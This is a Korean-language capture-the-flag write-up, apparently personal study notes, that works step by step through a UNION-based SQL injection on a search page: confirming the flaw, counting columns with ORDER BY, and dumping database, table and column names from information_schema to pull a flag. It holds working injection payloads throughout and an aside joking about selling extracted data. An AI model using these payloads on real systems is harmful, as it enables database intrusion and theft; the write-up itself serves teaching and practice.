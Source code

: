 # UNION SQLi
SQL 질의문 결과가 화면에 보이는 곳   
ex) 게시판, 회원정보(마이페이지), 주소검색, 검색페이지 ... 등등등

## 1. 추리
음 overwatch 검색하니까 name, score, production 3개 정보가 나오네   
db조회해서 하는 거겠지? 그럼 select 문 사용할 거고   
select ??? from ??? where ???   


watch 검색해도 같은 정보 나오네? 그러면 like 썻겠네   
where name like = ''   
% 를 앞하고 뒤 중에서 어디에 썻을까   

verwatc 검색해도 같은 정보가 나오네? 그러면    
where name like ='%__%' 이런 식이겠네   


ㅇㅋ 그럼 대충 정리하면   
select ??? from ??? where name like = '%___%'    
이게 query 겠네    

## 2. 취약점 확인
자 그럼 취약점을 확인해보자   
일단 내가 예상한 쿼리문에 뭔가 넣어서 SQLi 해야 하니까?   
%% 를 이용해서 간단하게 해보자   
verwatc%' #   
똑같은 정보 나오네? 그럼 SQLi 되겠다    

verwatc%' and '1%'='1    
입력해보니까 똑같은 정보 나오네?    
그럼 더 확실하게 된다는 거고   

verwatc%' and '1%'='2   
넣어보니까 안나오네 ㅇㅋ  
and '1%'='1    
이게 성공했다는 소리네   
취약점 확인

## 3. order by
내가 이 사이트를 SQLi 하는 이유가 뭘까?    
데이터 추출?    
서버 다운시키기?    
admin 계정 얻기?  
데이터 추출해서 팔아먹어야지. 이거 팔면 돈 많이 나오겠다.   
ㅇㅋ 그럼 데이터 뽑아먹자   
그럴려면 union으로 내가 원하는 데이터가 나오게 해야겠지?   
근데 union 쓰려면 컬럼 개수부터 알아야지   
컬럼 개수 알기 가장 쉬운 방법은?   
order by.

select ??? from ??? where name like = '%___%'   
여기서 order by 쓰려면 앞에 있는 구문을 먼저 끝내야겠지?   
그럼 verwatch%' 로 먼저 끝내고 컬럼 개수 뽑아 쓰자   
verwatch%' order by 1 #    
입력해보면?   
오 정보 나온다. 컬럼 개수가 1개 이상이라는 뜻이네   
그럼 계속 숫자 늘려가면서 몇개인지 유추 해보자   
1 되고    
2 되고   
3 되고   
4 되고   
5 오류떳다   
그럼 컬럼 개수 4개 확인. ㅇㅋ   

## 4. data 출력 위치 파악
이제 컬럼 개수 확인했으니까 컬럼 위치 확인해야지.   
처음에 있는 name 이 1번이라는 보장은 없잖아?   
1번이라고 해도 1,2,3 이런 식으로 이어질 거라는 보장도 없고.   
어? 근데 컬럼 4개라고 했는데 보여지는 정보 3개네.   
그럼 뭔가 보여지는 컬럼이 아니라는 뜻이네.   
일단 보여지는 컬럼부터 찾아보자   
이제 그럼 union 써서 1,2,3,4 집어넣어보자 컬럼 개수도 4개인 거 알았잖아.   
verwatc%' union select '1','2','3','4' #   
select ??? from ??? where name like = '%watch%' union select '1','2','3','4' #   
name 에 2,   
score 에 3,   
production 에 4 출력됐다.   
ㅇㅋ 그럼 보여줄 수 있는 컬럼 위치 확인 완료. 2,3,4   

## 5. DB 이름 확인
그럼 이제 슬슬 정보를 뽑아봐야지.   
정보 뽑으려면 데이터베이스, 테이블, 컬럼 이름이 다 필요하잖아.   
데이터베이스 이름부터 뽑아볼까?   
select database() 하면 바로 나오잖아.   
   
verwatc%' union select database() #    
하니까 안나오네? 아 맞다 union 컬럼 개수 맞춰줘야지.   
보여줄 수 있는 컬럼 위치 확인도 했었지.   
ㅇㅋ 다시   

verwatc%' union select 1,2,database(), 4 #   
오 3번 위치에 db 이름 떳다.      
segfault_sql 이네. 확인.   
   
## 6. table 이름 확인
그럼 db 이름 알았으니까 테이블 이름도 알아야지.   
테이블 이름 아는 방법이 뭐 길게 썻었는데..   
sql 문으로 뭐였지   
select table_name from information_schema.tables where table_schema = 'db이름'   
아 이거구나   
그럼 이거 union 에 붙여볼까   
verwatc%' union select table_name from information_schema.tables where table_schema = 'segfault_sql' #   
아니 오류뜨네..   
왜 오류뜨지 쿼리문에 넣어봐야겠다   

select ??? from ??? where name like = '%verwatc%' union select table_name from information_schema.tables where table_schema = 'segfault_sql' #%'   
아 아무 생각없이 또 붙여넣기만 했네. union은 컬럼 개수 맞추는 게 중요하다고 했잖아. 또 까먹었네.   
컬럼 개수 맞춰보자.    
verwatc%' union select '1',table_name,'3','4' from information_schema.tables where table_schema = 'segfault_sql' #   
와 드디어 떳다.   
table 이름이    
game,    
member,   
secret 3개네   
secret 뭐지? 궁금하네 들어가볼까?   

## 7. column 이름 확인
table 이름 알았으니까 그럼 이제 컬럼 이름 알아내볼까?   
컬럼 이름은 테이블 알아내는 거하고 비슷했지   
select column_name from informarion_schema.columns where table_name='table이름'   
   
ㅇㅋ 그럼 이번엔 union 컬럼 개수 유의해서 다시 작성해보자   
verwatc%' union select '1',column_name,'3','4' from information_schema.columns where table_name='secret' #   
됐다.   
idx,   
secret 이네   
컬럼 이름도 secret 이야?   
머지 궁금하네 데이터 추출해보자

## 8. data 추출
데이터 추출 하려면 이제는 간단하지. 컬럼 이름도 알았으니까.   
verwatc%' union select '1',secret,'3','4' from secret #   
segfault{fllllllllag}   
플래그 숨겨놨네    